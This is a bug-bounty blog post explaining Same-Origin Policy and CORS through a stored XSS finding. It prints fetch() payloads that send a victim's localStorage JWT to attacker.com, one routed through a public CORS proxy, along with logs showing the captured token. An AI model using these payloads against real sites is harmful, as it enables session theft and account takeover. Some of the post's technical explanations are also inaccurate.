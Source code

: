 ```yaml
---
layout: post
title: "On SOP, CORS, and the Hows of Exfiltrating JWTs via XSS"
author: "BoT"
tags: "bugbounty"
excerpt_separator: <!--more-->
---
```


In order words: how to not get c\*\*k-blocked by CORS.

<!--more-->

## Background

I recently found a stored Cross-site Scripting (XSS) vulnerability while hunting at a target.

While the bug class itself is not particularly spectacular, what interested me was on _what_ I could do with it.

Showing an alert popup is fine and all, but impact of that level would likely only net me a `Medium` in severity at HackerOne. To justify for anything higher, I have to get creative on showing its potential disastrous impact.

Given that this is a stored XSS, I thought to myself:

> What if I demonstrate that an attacker can essentially harvest credentials from any authenticated user who browses the affected page? In that case, mass account takeovers would be trivial!

An idea worth trying out, especially since the application stores the value of its JWT in the browser's `localStorage` as `token`.

I can simply swap out the typical payload of `alert(document.domain)` with one that retrieves the token and makes a GET request to a server under my control.

Just like this; and that should be it... right?

```javascript
fetch("https://attacker.com:8000/jwt=" + JSON.stringify(localStorage.getItem("token")));
```

Nope-- what greeted me was this sad little error message in the console instead:

> Access to fetch at 'https://attacker.com:8000/?jwt=xxx' from origin 'https://example.redacted.com' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource.

Very sad indeed.

## What in the world is CORS???

Now, before we go into that, let's first understand what is **Same-Origin Policy** (SOP).

Long story short, SOP prevents one origin from accessing resources of another origin.

Origin here is defined as `protocol://hostname:port`. In other words, in order for one origin to be considered the same as another origin, the values of these three variables must be _exactly_ the same.

Let's take `https://example.com/latest` as an example:

- `http://example.com/myinfo` is allowed because they are of the same origin
- `http://example.com/users.json` is blocked because they are of different protocol and port
- `https://api.example.com/info` is blocked because they are of different domain
- `https://example.com:8443/files` is blocked because they are of different port

One might say:

> But `img` tag can still load images despite not being the same origin!

That is correct -- because SOP only prevents browser's JavaScript engine from reading the contents of a response, it _does_ allow the resource to be loaded onto the DOM of the page.

To reiterate, the purpose of SOP is not to prevent request for a resources from being sent. In fact, in the prior example, all of the requests would be sent, it is just that `https://example.com/latest` wouldn't be able to read the response of those marked as blocked.

With the rise of micro-services, strict SOP policies like these are just too stifling for developers, which leads us to **Cross-Origin Policy** (CORS).

Simply put, CORS helps to relax these restrictions by instructing the browser on which origin are allowed to access their resources via headers.

The most common CORS-related headers are:

- `Access-Control-Allow-Origin` that specifies which origin can access the response
- `Access-Control-Allow-Credentials` that indicates if the request can include cookies
- `Access-Control-Expose-Headers` that instructs the browser to expose certain headers to JavaScript

If resources from `https://example.com/` were to be successfully loaded by `https://api.example.com/`, the response of the latter must have the following CORS header:

```
Access-Control-Allow-Origin: https://example.com
```

And this is why we had our little error: our `https://attacker.com/` doesn't return the necessary CORS header to allow our XSS payload to do its magic.

## Okay... how do we solve this?

> Wait a sec-- didn't you say that requests would still be sent? You should be able to see the incoming request which would have the JWT you sent!

Well, yes.

The request was indeed sent, but that didn't mean the delivered content was legible from the web server. In fact, it was a bunch of truly horrible-looking `400 Bad Request` errors.

```bash
bot@bucketoftears:~$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
██████████ -- [16/Mar/2023 12:57:58] code 400, message Bad request version ('ô<\x00"\x13\x01\x13\x03\x13\x02À+À/Ì©Ì¨À,À0À')
██████████ -- [16/Mar/2023 12:57:58] "ü_ÆoTmç¸Æ<&°ø`«6ß¸ÍòëH ¹3E&z×vø¾ú®^umrÒ}³J  ô<"À+À/Ì©Ì¨À,À0À" 400 -
██████████ -- [16/Mar/2023 12:57:58] code 400, message Bad request version ('}Å|\x00"\x13\x01\x13\x03\x13\x02À+À/Ì©Ì¨À,À0À')
██████████ -- [16/Mar/2023 12:57:58] "ü0!>Êó*!SEu´cj<ºaaÅ3ãqH· â3qøÂµßS02§[¾(dà¥ÃGz|_t}Å|"À+À/Ì©Ì¨À,À0À" 400 -
```

No amount of Googling had enlightened me on what-the-loving-f\*\*k is happening here (probably something to do with that missing CORS header), so I moved on to my next brilliant idea -- using CORS proxies!

A CORS proxy essentially acts as an intermediary that helpfully adds the required `Access-Control-Allow-Origin` header. It's easy -- doesn't require server setups of any kind -- and already has many instances online for immediate use (e.g. `CORS Anywhere`, `alloworigin`).

One just needs to prefix the chosen proxy's URL to `https://attacker.com` and the proxy in question will:

1. Forward the request to `https://attacker.com`
2. Add the `Access-Control-Allow-Origin` header to the response from `https://attacker.com`
3. Passes that response, with that added header, back to the requesting `https://attacker.com`

Sounds simple!

Now, let's try this out on the XSS payload...

```javascript
fetch(
  "https://api.allorigins.win/get?url=https://attacker.com:8000/jwt=" +
    JSON.stringify(localStorage.getItem("token"))
);
```

... voilà, the JWT we are looking for on our web server!

```bash
bot@bucketoftears:~$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
██████████ - - [16/Mar/2023 13:34:48] code 404, message File not found
██████████ - - [16/Mar/2023 13:34:48] "GET /%22eyJ0eXAiOiJKV1Q█████████.eyJhdWQiOiJiMjg█████████.Vnm3IUUeydxCItX█████████%22 HTTP/1.1" 404 -
```

## Conclusion

Ultimately, this vulnerability was triaged as `Medium` in severity. While disappointing, it was a good revision of the SOP and CORS concepts. In my opinion, it was a net gain.

Funny enough, it wasn't until everything was said and done that I realized scripts like [khalidx/simple_http_server_cors.py](https://gist.github.com/khalidx/6d6ebcd66b6775dae41477cffaa601e5) exist. Instead of resolving the CORS error in such a roundabout way, I could have just leached onto open-source tools that were already available.

Oh well.

## References

- My very expensive OSWE course-book 🙃
- [StackOverflow - Trying to use fetch and pass in mode: no-cors](https://stackoverflow.com/questions/43262121/trying-to-use-fetch-and-pass-in-mode-no-cors)
